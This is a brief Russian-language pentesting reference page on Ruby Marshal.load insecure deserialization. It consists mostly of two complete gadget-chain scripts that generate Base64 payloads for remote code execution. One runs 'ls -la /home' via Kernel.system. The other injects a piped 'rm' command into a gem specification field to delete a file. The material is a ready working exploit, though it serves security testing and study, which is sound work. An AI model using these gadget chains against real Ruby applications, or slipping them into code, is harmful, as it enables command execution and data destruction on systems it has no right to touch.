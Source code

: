 # Ruby

Функция `Marshal.load`.

Payloads All The Things: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)

Сериализованные данные начинаются с:

```
04 08 ...
```

Пример:

![](<../../../.gitbook/assets/изображение (1) (1).png>)

## RCE Gadgets

### Universal Gadget Ruby 2.x-3.x

Link: [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "ls -la /home")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
# puts Marshal.load(payload)


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

### Unversal Gadget Ruby 2.0-2.5

```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
    def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|rm /home/carlos/morale.txt")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
    def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
    def marshal_dump
        [$dependency_list]
    end
end

payload = Marshal.dump(Gem::Requirement.new)

require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
